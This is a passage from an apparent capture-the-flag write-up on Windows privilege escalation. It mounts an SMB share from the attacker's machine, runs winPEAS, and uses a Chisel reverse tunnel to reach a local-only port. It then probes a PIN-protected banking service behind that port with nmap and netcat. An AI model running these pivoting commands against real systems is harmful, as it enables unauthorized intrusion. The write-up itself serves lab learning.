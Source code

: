 ## Privilege Escalation

To get any attack surface on the box, it is recommended to run any **Windows Enumeration Script**.

Mounting an SMB share to the box for comfortable transferring:
```
net use X: \\10.10.14.14\www
```
```
./winPEAS.exe
```

Observations:
- Executable _C:\bankv2.exe_, but no read access
- Port 910 open, but it can't be accessed

```
netstat -an

TCP      0.0.0.0:910      0.0.0.0:0      LISTENING
```

Lets forward port 910 to our local client with [Chisel](https://github.com/jpillora/chisel):
```
./chisel_linux_amd64 server --port 9002 --reverse
```

Executing _chisel.exe_ on the box:
```
./chisel.exe client 10.10.14.14:9002 R:910:127.0.0.1:910
```

Now our client also listens on port 910 and can be scanned with **Nmap**:
```
nmap -p 910 -sC -sV -n 127.0.0.1
```
```
PORT    STATE SERVICE VERSION                                                           
910/tcp open  kink?                                                                     
| fingerprint-strings:                                                                  
|   GenericLines, GetRequest, HTTPOptions:                                              
|     --------------------------------------------------------------      
|     Internet E-Coin Transfer System                                                   
|     International Bank of Sun church                                                  
|     v0.1 by Gio & Cneeliz                                                             
|     --------------------------------------------------------------      
|     Please enter your super secret 4 digit PIN code to login:           
|     Access denied, disconnecting client....
```

This is probably the application behind _bankv2.exe_.
Connecting to it with **netcat**:
```
nc localhost 910
```
```
--------------------------------------------------------------
Internet E-Coin Transfer System
International Bank of Sun church
                                       v0.1 by Gio & Cneeliz
--------------------------------------------------------------
Please enter your super secret 4 digit PIN code to login:
[$] 1234
[!] Access denied, disconnecting client....
```
